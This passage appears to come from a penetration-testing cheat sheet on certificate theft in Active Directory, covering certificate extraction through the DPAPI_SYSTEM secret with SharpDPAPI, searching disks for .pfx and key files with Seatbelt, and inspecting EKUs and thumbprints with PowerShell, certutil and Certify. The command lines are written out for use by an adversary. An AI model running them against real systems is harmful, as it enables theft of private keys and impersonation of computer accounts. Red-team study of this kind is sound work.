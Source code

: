 It's not possible to decrypt machine keys using the domain's DPAPI backup key, so the adversary can use the `DPAPI_SYSTEM` LSA secret on the system which is accessible only by the SYSTEM user:

```
# While elevated
Cmd > .\SharpDPAPI.exe certificates /machine
```

After converting the output to `.pfx` and if the appropriate EKU scenario is present, the adversary can use that `.pfx` for domain authentication *as the computer account* (see **PERSIST2**).



### Search for Certificate Files (THEFT4)

Find certificate files lying around with Seatbelt:

```
Cmd > .\Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
Cmd > .\Seatbelt.exe InterestingFiles
```

Some other certificate-related file extensions:

| File Extension             | Description                                                               |
|----------------------------|---------------------------------------------------------------------------|
| `.key`                     | The private key.                                                          |
| `.crt`/`.cer`              | The certificate.                                                          |
| `.csr`                     | Signing request file. Does not contain certificates or keys.              |
| `.jks`/`.keystore`/`.keys` | Java Keystore. May contain certificates + private keys used by Java apps. |

List EKUs for a certificate with PowerShell:

```
PS > $CertPath = "C:\Users\snovvcrash\cert.pfx"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.EnhancedKeyUsageList
```

Parse `.pfx` with certutil:

```
Cmd > certutil.exe -dump -v cert.pfx
```

Correlate a certificate with a CA thumbprint on the host and in AD:

```
# Get cert's thumbprint
PS > $CertPath = "C:\Users\snovvcrash\cert.p12"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.Thumbprint

# Match it with CA certs' thumbprints trusted by the current host
Cmd > .\Seatbelt.exe -q CertificateThumbprints

# Match it with CA certs' thumbprints from AD
Cmd > .\Certify.exe find /quiet
```
